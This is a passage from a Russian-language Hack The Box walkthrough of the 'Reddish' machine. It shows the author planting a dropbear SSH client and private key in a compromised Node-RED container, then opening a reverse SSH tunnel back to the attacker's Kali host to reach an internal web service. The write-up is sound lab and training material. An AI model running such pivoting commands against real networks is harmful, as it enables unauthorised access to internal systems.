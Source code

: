 ```
root@kali:~/dropbear-2019.78# ./dropbearkey -t ecdsa -s 521 -f .secret
Generating 521 bit ecdsa key, this may take a while...
Public key portion is:
ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAA2TCQk3VTYCX/hZjMmXT0/A27f5EOKQY4FbXcYeNWXIPLFQOOLnQFWbAjBa9qOUdmwOipVvDwXnvt6hEmwitflvQEIw9wHQ4spUAqs/0CR6AoiTT3w7v6CAX/uq0u2oS7gWf9SPy/Npz8Ond6XJKh+d0QPXz0uQrq0wyprCYo+g/OiEA== root@kali
Fingerprint: sha1!! ef:6a:e8:e0:f8:49:f3:cb:67:34:5d:0b:f5:cd:c0:e5:8e:49:28:41
```

![nodered-upload-dbclient.png](/assets/images/htb/machines/reddish/nodered-upload-dbclient.png)
{:.center-image}

Все, SSH-клиент вместе с 521-битный приватным ключом ([на эллиптике](https://xakep.ru/2019/08/27/elliptic-curve-cryptography/)) улетели в контейнер. Теперь создадим фиктивного пользователя с шеллом `/bin/false`, чтобы не подставлять свою машину в случае, если кто-то наткнется на закрытый ключ.

```
root@kali:~# useradd -m snovvcrash
root@kali:~# vi /etc/passwd
... Меняем шелл юзера snovvcrash на "/bin/false" ...
root@kali:~# mkdir /home/snovvcrash/.ssh
root@kali:~# vi /home/snovvcrash/.ssh/authorized_keys
... Копируем открытый ключ ...
```

Все готово, можно пробрасывать туннель.

```
root@nodered:/tmp# ./dbclient -f -N -R 8890:172.19.0.3:80 -i .secret -y snovvcrash@10.10.14.19
```

* `-f` — свернуть клиент в бэкграунд после аутентификации на сервере;
* `-N` — не выполнять команды на сервере и не запрашивать шелл;
* `-R 8890:172.19.0.3:80` — слушать `localhost:8890` на Kali и перенаправлять все, что туда попадет, на `172.19.0.3:80`;
* `-i .secret` — аутентификация по приватному ключу `.secret`;
* `-y` — автоматически добавлять хост с отпечатком его открытого ключа в список доверенных.

На Kali можно проверить успешность создания туннеля с помощью каноничного `netstat` или его новомодной альтернативы `ss`.

```
root@kali:~# netstat -alnp | grep LIST | grep 8890
tcp        0      0 127.0.0.1:8890          0.0.0.0:*               LISTEN      236550/sshd: snovvc
tcp6       0      0 ::1:8890                :::*                    LISTEN      236550/sshd: snovvc
root@kali:~# ss | grep 1880
tcp    ESTAB   0        0                                10.10.14.19:43590                         10.10.10.94:1880
```

После всего этого можно открыть браузер и на `localhost:8890` окажется тот самый эндпоинт, маршрут к которому мы прокладывали.

![www-reverse-ssh-ex.png](/assets/images/htb/machines/reddish/www-reverse-ssh-ex.png)
{:.center-image}
